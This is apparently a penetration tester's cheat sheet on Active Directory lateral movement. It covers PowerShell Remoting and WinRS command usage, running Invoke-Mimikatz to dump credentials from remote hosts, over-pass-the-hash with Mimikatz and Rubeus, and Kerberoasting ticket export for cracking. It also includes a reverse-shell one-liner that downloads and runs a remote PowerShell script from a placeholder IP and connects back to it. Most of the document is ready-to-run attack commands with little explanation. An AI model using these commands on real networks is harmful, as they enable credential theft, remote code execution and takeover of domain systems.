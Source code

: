 # AD - Lateral Movement / Connections

## **Basics**

**PowerShell Remoting**

* Its like psexec on steroids
* Enabled by default on Server 2012 and newer
* May need to enable remoting Enable-PSRemoting (admin privs required) e.g Win10
* You get an elevated shell if admin creds are use - so a lot of UAC Issues are not relevant
* Port 5985/5986 (SSL Encrypted) - is used (based on WinRM)
* One-To-One or One-To-Many (non-interactive, executes parallely)&#x20;
* Credentials are not left on target unless CredSSP/Unconstraned Delegation?
* Runs in process "wsmprovhost" and is stateful

## **Connections / WinrRS**

**Windows Remote Management (cmd.exe)**\
winrs -r:hostname cmd

## **Connections / PowerShellRemoting**

**Access C disk of a computer (check local admin)**\
ls \\\\\[hostname]\c$

**Connect to machine with administrator privs**\
****Enter-PSSession -Computername

**Save and use sessions of a machine**\
****$sess = New-PSSession -Computername hostname.local\
Enter-PSSession $sess

No local file be included in Enter-PSSession/New-PSSession

**Execute commands on a machine(s) (non-interactive)**

{% code overflow="wrap" %}
```powershell
Invoke-Command -Computername hostname -Scriptblock {whoami;hostname}
Invoke-Command -Computername hostname -Scriptblock {$executioncontext.sessionstate.languagemode}
Invoke-Command -Scriptblock {whoami} -Computername (Get-Content <list-of-servers-file>) 
```
{% endcode %}

**Execute script on a machine**

{% code overflow="wrap" %}
```powershell
Invoke-Command -Computername (Get-Content <list-of-servers-file>) -FilePath  C:\scripty\a.ps1
❗Invoke-Command -FilePath C:\scripty\a.ps1 -Session $sess
   Enter-PSSession -Session $sess
   functionname_in_aps1
```
{% endcode %}



**Execute locally loaded function on a list of remote machines**

{% code overflow="wrap" %}
```powershell
Invoke-Command -Scriptblock ${function:test} -Computername (Get-Content <list_of_servers>)
❗Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content <list_of_servers>)
A file/function test.ps1 is creatd and . .\test.ps1 With the content
function test
{
 Write-Output "Test" 
}
```
{% endcode %}

then run "test"  => Then we can run Invoke-Command -Scriptblock ${function:test} -Computername a\_host

**Execute locally loaded function on a list of remote machines & passing arguemnts (only positional arguments could be passed)**\
****

{% code overflow="wrap" %}
```powershell
Invoke-Command -ScriptBlock ${fucntion:getPassHashes} -Hostname a_host -ArgumentList

Use "Stateful" command using Invoke-Command:
$sess = New-PSSession -computername host1
Invoke-Command -session $sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -session $sess -ScriptBlock {$Proc.Name}
```
{% endcode %}

**Copy script to other server**

```powershell
Copy-Item .\Invoke-MimikatzEx.ps1 \\hostname\c$\'Program Files'
```

**Powershell reverse shell**

{% code overflow="wrap" %}
```powershell
powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000
```
{% endcode %}

## Mimikatz - Invoke-Mimikatz

* Dump credentials, tickets, passing & replaying hashes
* Using the code from ReflectivePEInjection mimikatz is loaded reflectively into memory.
* Administrative Privilege is needed for reading/writing to lsass e.g. dumping creds

**Dump credentials on local/remote machine**

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -DumpCreds   //default parameter
Invoke-Mimikatz -DumpCreds -Computername @("host1","host2")    //uses PowerShell remoting cmdlet Invoke-Command (need local admin privs on remote host)
```
{% endcode %}

**Write to lsass / "over pass the hash" - generate tokens from hashes (we have the hash for the User specified)**

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -command '"sekurlsa::pth /user:Administrator /domain:dom.local /ntlm:<ntlmhash> /run:powershell.exe"'
```
{% endcode %}

Creates a valid kerberos ticket using the ntlm hash of a user. Authenticate to Kerberos enabled Services afterfwards.

## **🍳Kerberoasting**

### **Description**

### **Attack commands**

**See existing tickets**\
klist

**Remove all tickets**\
****klist purge

**Request a kerberos service ticket for a specific SPN - output Hashcat format**\
****Powerview - Request-SPNTicket -SPN "name/target.domain.local" \[-OutputFormat JTR]

**Manually**\
Add-Type -AssemblyName System.IdentityModel

{% code overflow="wrap" %}
```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "name/target.domain.local"
```
{% endcode %}

**Dump the ticket**

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
=> Now Crack
```
{% endcode %}



## ⏩Over-Pass the Hash

### Description



### Attack commands

{% code overflow="wrap" %}
```powershell
Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/opsec] /ptt

Invoke-Mimikatz '"sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe'"
```
{% endcode %}





